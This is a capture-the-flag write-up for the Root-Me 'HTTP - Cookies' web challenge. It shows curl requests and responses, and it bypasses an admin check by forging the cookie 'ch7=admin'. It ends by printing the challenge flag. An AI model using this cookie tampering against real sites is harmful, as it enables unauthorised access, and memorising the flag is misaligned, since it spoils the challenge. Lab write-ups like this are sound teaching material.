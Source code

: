 ```yaml
---
title: HTTP - Cookies
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-Cookies](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Cookies)

## Statement

> Bob created a PHP script to gather user emails
>
> PS: Bob really love cookies!
>
> [http://challenge01.root-me.org/web-serveur/ch7/](http://challenge01.root-me.org/web-serveur/ch7/)

## Solution

```sh
curl -i http://challenge01.root-me.org/web-serveur/ch7/
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 12 Jul 2023 03:09:55 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
```

```html
<br/>
<br/>
<fieldset>

<form method="POST" action="" name="a">
Email<br/>
<input type="text" name="mail" size="20" class="post2" value=""><br/><br/>
<input type="submit" name="jsep4b" size="20" class="post2" value="send"><br/><br/>
</form><!--SetCookie("ch7","visiteur");--><a href="?c=visiteur">Saved email adresses</a><br/></fieldset>
```

Check all the link, as usual
```sh
curl -i http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 12 Jul 2023 03:13:43 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Set-Cookie: ch7=visiteur
```

```html
<br/>
<br/>
<fieldset>

<form method="POST" action="" name="a">
Email<br/>
<input type="text" name="mail" size="20" class="post2" value=""><br/><br/>
<input type="submit" name="jsep4b" size="20" class="post2" value="send"><br/><br/>
</form><!--SetCookie("ch7","visiteur");--><a href="?c=visiteur">Saved email adresses</a><br/>You need to be admin</fieldset>
```

"You need to be admin"...
```sh
curl -i -H "Cookie: ch7=admin" http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur
```
```html
<div>Validation password : ml-SYMPA
</div></fieldset>
```

The flag is
```
ml-SYMPA
```